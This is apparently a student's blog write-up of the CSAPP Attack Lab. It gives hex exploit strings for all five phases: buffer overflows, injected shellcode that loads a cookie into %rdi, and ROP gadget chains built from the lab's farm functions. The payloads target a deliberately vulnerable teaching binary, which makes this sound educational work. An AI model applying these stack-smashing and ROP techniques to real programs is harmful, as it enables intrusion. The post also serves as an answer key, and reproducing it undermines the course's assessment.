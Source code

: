 ```yaml
---
title: 'CSAPP Lab3 AttackLab'
date: 2023-02-06
permalink: /posts/2023/02/csapp-lab3/
tags:
  - self-learning
  - csapp
---
```



Compared with `DataLab` and `BombLab`, this is a much easier lab: as it is only based on one lecture and the code you need to go through is relatively short. The only thing that can be confusing is byte ordering: when you need to reverse the bytes and when you should not.

## Phase 1

No new execution code is needed to be injected. Overflow the buffer to change the return address to the address of `touch1()`

## Phase 2

Inject my cookie to %rdi, which will be the input value of `touch2()`

1. redirect the execution to `%rdi build` function
2. %rdi build function: move my cookie to %rdi
3. redirect the execution to the address of `touch2()`

Byte code for %rdi build function: 

```
48 c7 c7 fa 97 b9 59 c3 /* movq $0x59b997fa, %rdi */
```

Put it together: 

```
48 c7 c7 fa 97 b9 59 c3 /* %rdi build code: move my cookie to %rdi */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* address of my %rdi build code */
ec 17 40 00 00 00 00 00 /* address of touch 2 code */
```

## Phase 3

Phase 3 is similar to Phase 2, but we need to move the pointer of cookie string to register %rdi this time.

1. redirect the execution to `%rdi build` function
2. %rdi build function: move the pointer of my cookie to %rdi
    + convert cookie string to hex format
    + put the cookie string before the return address, and calculate the offset to generate the actual address
3. redirect the execution to the address of `touch3()`

```
48 c7 c7 b0 dc 61 55 c3 /* move the cookie string address to %rdi */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* address of my %rdi build code */
fa 18 40 00 00 00 00 00 /* address of touch 3 code */
35 39 62 39 39 37 66 61 /* cookie string in hex format */
```

## Phase 4

Phase 4 is also similar to Phase 2, but we cannot inject `%rdi build function` this time. This is because:

+ It `marks the section of memory holding the stack as nonexecutable`, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.

So, we need to collect some gadgets to move my cookie to %rdi

Luckily, we find these assembly codes, and combine them to generate %rdi build function

```
popq %rax  
nop  
retq
```

```
movq %rax,%rdi
nop
retq
```

1. pop the cookie string to %rax
2. move %rax to %rdi
3. redirect the execution to the address of `touch2()`

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* address of popq %rax  nop  retq */
fa 97 b9 59 00 00 00 00 /* cookie */
a2 19 40 00 00 00 00 00 /* address of movq %rax,%rdi */
ec 17 40 00 00 00 00 00 /* address of touch2 */
```


## Phase 5

Phase 5 is similar to Phase 3, but we cannot calculate the address of cookie string based on the buffer address. This is because:

+ It uses randomization so that the stack positions differ from one run to another. This makes it impossible to determine where your injected code will be located.

The address is unpredictable, so we cannot use the method in Phase 4 to pop the address of my cookie string.

So, we still need to combine some gadgets in the farm function to generate %rdi. This phase is much harder than before. You need to be very familiar with the assembly and byte code to generate a valid function.

I search on Google to find some useful tips to handle this phase. I choose one of them to generate my final answer.

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 /* movq %rsp,%rax  48 89 e0 c3 */
d8 19 40 00 00 00 00 00 /* add $0x37,%al   04 37 c3 */
a2 19 40 00 00 00 00 00 /* movq %rax,%rdi  48 89 c7 c3 */
fa 18 40 00 00 00 00 00 /* address of touch 3 */
dd dd dd dd dd dd dd dd
dd dd dd dd dd dd dd dd
dd dd dd dd dd dd dd dd
dd dd dd dd dd dd dd    /* Padding (0x37(55)-24=31 in total) */
35 39 62 39 39 37 66 61 /* Cookie in ASCII */
```


